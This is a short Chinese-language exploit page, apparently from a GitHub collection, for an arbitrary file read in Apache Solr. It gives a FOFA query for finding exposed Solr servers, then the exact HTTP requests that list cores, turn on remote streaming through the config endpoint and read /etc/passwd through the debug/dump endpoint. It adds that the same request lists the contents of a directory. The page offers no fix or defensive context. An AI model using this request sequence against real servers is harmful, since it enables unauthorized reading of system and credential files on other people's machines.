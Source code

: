 # Apache Solr 全版本任意读取文件漏洞
## 资产搜索
fofa app="Solr" || app="Apache-Solr"
## POC
- url访问：  
`http://ip:port/solr/admin/cores?indexInfo=false&wt=json`
![](img/1.png)  
- POST请求：
```url
POST /solr/{name}/config

{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
出现这个报错说明漏洞存在
![](img/1.png)  
- 任意文件读取：
```url
POST /solr/{name}/debug/dump?param=ContentStreams
Content-Type: application/x-www-form-urlencoded

stream.url=file:///etc/passwd
```
![](img/3.png)  
路径写文件夹的话会列举出来文件夹下面的东西，和ls一样。